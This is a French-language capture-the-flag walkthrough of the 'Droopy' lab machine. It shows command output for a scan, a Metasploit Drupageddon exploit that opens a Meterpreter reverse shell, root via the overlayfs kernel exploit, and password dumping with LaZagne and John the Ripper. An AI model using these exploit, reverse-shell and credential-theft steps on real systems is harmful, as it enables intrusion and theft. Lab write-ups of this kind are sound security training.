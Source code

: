 \# DroopyCTF

1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.195
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.195...100%
[+] Scan Nmap 192.168.56.195...100%
 
[+] 80/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/m0rph3u5/Massap/192.168.56.195-tcp.html     |
==========================================================
```

&nbsp;

**Rapport Nmap**

![Capture du 2025-04-16 13-19-43.png](../../_resources/Capture%20du%202025-04-16%2013-19-43.png)

&nbsp;

<span style="color: #dddddd;">💥</span> **Metasploit - drupal_drupageddon** 

Exploitation de la `CVE` trouver par `nmap` ( cve-2014-3704)

```
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set lhost 192.168.56.149
lhost => 192.168.56.149
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set rhosts 192.168.56.196
rhosts => 192.168.56.196
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> run
[*] Started reverse TCP handler on 192.168.56.149:4444 
[*] Sending stage (40004 bytes) to 192.168.56.196
[*] Meterpreter session 1 opened (192.168.56.149:4444 -> 192.168.56.196:55448) at 2025-04-16 19:05:25 +0200

(Meterpreter 1)(/var/www/html) >
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> LinPeas**

Élévation de privilege avec linpeas

```
www-data@droopy:/tmp$ ./linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester
╚ 
[+] [CVE-2015-1328] overlayfs

   Details: http://seclists.org/oss-sec/2015/q2/717
   Exposure: highly probable
   Tags: [ ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic} ],ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic}
   Download URL: https://www.exploit-db.com/download/37292

```

&nbsp;

&nbsp;

**<span style="color: #dddddd;">💀</span> Exploit Overlays**

Test de l'exploit trouver precedement

```
www-data@droopy:/tmp$ gcc overlays.c   
gcc overlays.c
www-data@droopy:/tmp$ ./a.out
./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# bash -i
root@droopy:/tmp#
```

&nbsp;

<span style="color: #dddddd;">👾</span> **LaZagne**

Cherchons des mot de passe sur la machine

```
root@droopy:/tmp/LaZagne-2.4.6/Linux# python laZagne.py all
python laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Password found !!!
Login: gsuser
Password: gsuser

[+] Hash found !!!
Login: root
Hash: $6$fSUKb/ov$EFE6LjrVpz2yJrd2QSQEe/mGQ.8q3xXi9s5CJL95ngeh95PS91e10XLav4gRE1z4jv1Wmb6WH24yVQA6GKwEl/:16415:0:99999:7:::


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 1.15886497498
```

&nbsp;

**<span style="color: #dddddd;">🧨</span> JohnTheRipper**

Crack du mot de passe `root`

```
┌─[m0rph3u5@parrot]─[~]
└──╼ $john droop 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
toor             (root)     
1g 0:00:00:00 DONE 1/3 (2025-04-16 19:30) 16.66g/s 166.6p/s 166.6c/s 166.6C/s rootroot..RootRoot
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

&nbsp;

Identifiant trouver

| Users | Passwords |
| --- | --- |
| root | toor |
| gsuser | gsuser |